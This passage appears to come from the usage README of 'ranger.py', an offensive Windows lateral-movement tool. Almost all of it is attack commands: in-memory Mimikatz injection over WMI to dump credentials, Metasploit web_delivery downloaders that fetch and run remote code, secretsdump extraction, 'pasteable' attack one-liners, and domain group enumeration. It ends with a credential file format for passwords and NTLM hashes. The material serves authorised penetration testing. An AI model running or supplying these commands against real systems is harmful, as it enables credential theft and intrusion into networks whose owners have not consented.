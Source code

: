 ### ATEXEC PowerShell Mimikatz Memory Injector:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder
```

### ATEXEC Metasploit web_delivery Memory Injector (requires Metasploit config see below):
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder
```

### ATEXEC Custom Code Memory Injector:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -x "im.ps1" -f "Invoke-Mimikatz -DumpCreds" --no-encoder
```

### SECRETSDUMP Custom Code Memory Injector:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump
```

### Create Pasteable Mimikatz Attack:
```
ranger.py --invoker -q -v -vv -vvv
```

### Create Pasteable web_delivery Attack (requires Metasploit config see below):
```
ranger.py --downloader -q -v -vv -vvv
```

### Create Pasteable Executor Attack:
```
ranger.py --executor -q -v -vv -vvv
```
### Identifying Groups Members and Domains
* When identifying groups make sure to determine what the actual query domain is with the `--get-domain-membership`
* Then when you query a group use the optional `--domain`, which allows you to target a different domain than the one you logged into
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --get-domain-membership
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --domain "Domain.local2"
```

## Notes About Usage:
### Cred File Format:
* You can pass it a list of usernames and passwords or hashes in the following format in the same file:
```
username password
username LM:NTLM
username :NTLM
username **NO PASSWORD**:NTLM
PWDUMP
username PWDUMP domain
username password domain
```